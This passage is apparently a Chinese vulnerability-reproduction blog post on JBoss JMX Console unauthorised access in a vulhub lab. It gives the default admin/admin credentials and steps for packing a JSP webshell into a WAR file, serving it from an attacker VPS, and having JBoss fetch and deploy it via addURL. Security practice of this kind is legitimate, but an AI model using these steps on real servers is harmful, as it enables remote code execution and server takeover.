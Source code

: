 [合集 \- 漏洞复现(6\)](https://github.com)[1\.mysql弱密码爆破10\-28](https://github.com/left-shoulder/p/18511384)[2\.Tomcat弱口令上传war包10\-27](https://github.com/left-shoulder/p/18509031)[3\.Hadoop未授权访问11\-01](https://github.com/left-shoulder/p/18521194)[4\.Redis未授权访问11\-03](https://github.com/left-shoulder/p/18523791)[5\.weblogic历史漏洞11\-14](https://github.com/left-shoulder/p/18545731)6\.JBOSS漏洞复现11\-16收起
# Jboss漏洞复现


`统一靶场：/vulhub/jboss`


## JMX Console 未授权访问漏洞



```
# 介绍	
	JBoss的webUI界面 http://ip:port/jmx-console未授权访问(或默认密码admin/admin）
	可导致JBoss的部署管理的信息泄露，攻击者也可以直接上传木马获取webshell

```

#### 漏洞发现


 访问 `http://ip:port/jmx-console`能直接访问或弱口令登录则存在漏洞


![image-20241115120532157](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115120532157.png)
#### 远程部署war包


1. 找到 jboss.deployment 选项(Jboss自带的部署功能）中的flavor\=URL,type\=DeploymentScanner点进去 (通过url的方式远程部署)


![image-20241115120908028](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115120908028.png)
2. 进入页面后找到addURL


![image-20241115122608530](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115122608530.png)
3. 在vps上部署war包



```
# 打包jsp马为war包
jar -cvf shell.war shell.jsp

# 在vps上启动web服务
python3 -m http.server

# 输入war包请求地址
http://your-ip:8000/cmd.war

```

![image-20241115122640983](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115122640983.png)
4. 随后点击`BacktoMBeanView`来到URLList中查看Value值是否已经部署好，最后点击 `Apply Changes`
